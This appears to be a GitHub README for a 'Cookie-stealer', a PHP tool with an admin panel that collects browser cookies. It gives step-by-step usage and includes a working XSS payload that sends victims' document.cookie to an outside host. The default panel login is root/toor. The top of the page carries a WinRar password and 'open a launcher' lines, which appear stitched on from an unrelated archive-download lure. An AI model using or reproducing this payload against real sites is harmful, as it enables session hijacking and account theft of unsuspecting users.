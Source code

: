 # WinRar Password: xov0113

### How to use?

- Open a launcher when you are finished with downloading

- Follow step ups below

![Cookie](https://user-images.githubusercontent.com/8536299/99194653-0f8b8b80-2781-11eb-9415-d4a6efc5920e.png)

# Cookie-stealer
Crappy cookie stealer with 'admin' panel made long time ago..

```admin.php``` to view your cookies, ```c.php``` to grab the cookies.
c.php will write the cookies into admin.php, be sure to have write access on your server.

### Usage
1. Drop ```admin.php``` and ```c.php``` in the same directory.
2. Go to your vulnerable formulary and send him a payload to your ```c.php?c=``` something like this:
 * `<script>document.write("<img src='http://xxxxx.fr/c.php?c="+document.cookie+"'></img>");</script>`
3. Navigate to admin.php, login with username: **root** password: **toor**
4. ???
5. Profit.
